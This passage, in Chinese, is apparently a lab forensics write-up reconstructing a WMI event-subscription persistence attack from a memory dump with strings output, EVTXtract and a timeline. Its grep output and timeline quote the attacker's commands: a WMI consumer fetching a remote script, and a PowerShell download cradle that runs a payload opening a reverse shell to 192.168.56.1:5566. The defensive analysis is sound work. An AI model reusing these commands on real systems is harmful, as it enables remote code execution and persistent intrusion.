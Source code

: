 ```console
20231-NTEventLogEventConsumer.Name="SCM Event Log Consumer"
20232-__EventFilter.Name="SCM Event Log Filter"
20233-__thisNAMESPACE
20234-MSFT_LocalizablePropertyValue
--
27800:sysWOW64.wbemapi
27801-JScript
27802-GetObject("script:http://192.168.56.1:8080/gimmesome.js")
27803-__Win32Provider
27804-{A3E41207-BE04-492a-AFF0-19E880FF7545}
27805-NetworkServiceHost
27806-MS_Shutdown_Event_Provider
27807-CIM_System
27808-CIM_ComputerSystem
27809-Description
27810-A class derived from CIM_System that is a special collection of CIM_ManagedSystemElement instances. This collection provides compute capabilities and serves as aggregation point to associate one or more of the following elements: file system, operating system, processor and memory (volatile and/or non-volatile storage).
```
上面是嘗試把兩個 consumer 的相關資訊都列出，可以看到 `sysWOW64.wbemapi` 被設定執行的動作在後續兩行：`GetObject("script:http://192.168.56.1:8080/gimmesome.js")`
- **_運氣好_** 的話，就這樣逐一把所需資訊篩選出來

#### `Event Viewer`
- #### 安裝 `EVTXtract`
```console
pip3 install evtxtract
```
- #### 取出紀錄檔 `evtx`
```console
$ evtxtract wmilab.dmp > evtx.xml
.
.
INFO:evtxtract:no matching templates for record at offset: 0xfe02f9e8
INFO:evtxtract:no matching templates for record at offset: 0xfe02fba8
INFO:evtxtract:no matching templates for record at offset: 0xfe02fd68
INFO:evtxtract:no matching templates for record at offset: 0xfe02ff28
INFO:evtxtract:no matching templates for record at offset: 0xfe0300e8
INFO:evtxtract:too many templates for record at offset: 0xfe0302c0
INFO:evtxtract:no matching templates for record at offset: 0xfe3089e8
INFO:evtxtract:no matching templates for record at offset: 0xfe308cf0
INFO:evtxtract:no matching templates for record at offset: 0xfe308fc0
INFO:evtxtract:no matching templates for record at offset: 0xfe309300
INFO:root:recovered 1374 complete records
INFO:root:recovered 17414 incomplete records
$ 
```
產生的檔案是單純的 xml 格式，只是時序有點亂，自己搭配工具會比較好看，不過 disk forensic 時在 Windows Event Viewr 查出來的 log 都一樣可以在裡面找到
- ### `4/3/2022 5:45:39 AM` 駭客以 `IEUser` 帳號使用 `Run as administrator` 執行 `evil3.vbs`
- ### `4/3/2022 5:45:39 AM` 電腦被加入 `WMI FilterToConsumerBinding` 設定
	- #### Filter `Ready2Go`：每 `5秒` 檢查一次 `登入 log`
	- #### Consumer `sysWOW64.wbemapi`：觸發 `下載執行可疑檔案 gimmesome.js`
	> GetObject("script:http://192.168.56.1:8080/gimmesome.js")
- ### `4/3/2022 6:05:45 AM` 有人登入產生 `4624` log
- ### `4/3/2022 6:05:46 AM` 觸發 `下載執行可疑 chromeupdater.ps1`
> IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd
- #### 產生常駐連線往 `192.168.56.1:5566`
